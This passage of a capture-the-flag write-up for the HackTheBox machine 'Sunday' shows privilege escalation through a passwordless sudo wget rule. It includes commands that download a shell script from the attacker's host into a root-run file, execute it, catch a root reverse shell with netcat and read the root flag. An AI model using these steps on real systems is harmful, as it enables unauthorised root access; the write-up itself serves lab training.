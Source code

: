 ```bash
sudo -l
```

```txt
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

very nice. Sammy could run wget as root privilege.

```bash
sudo wget http://10.10.14.3/shell.sh -O /root/troll
```

And run this command on sunny terminal fastly (as very 5 second it will update the troll file) 

```bash
sudo /root/troll
```

Excellent! we get a root shell.

```bash
id
cat /root/root.txt
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Sunday]
└─$ nc -vlp 1234
listening on [any] 1234 ...
10.10.10.76: inverse host lookup failed: Unknown host
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.76] 46858
root@sunday:/# id
uid=0(root) gid=0(root)
root@sunday:/# cat /root/root.txt
fb40fab61d99d37536daeec0d97af9b8
```

![[Sunday-05.png]]
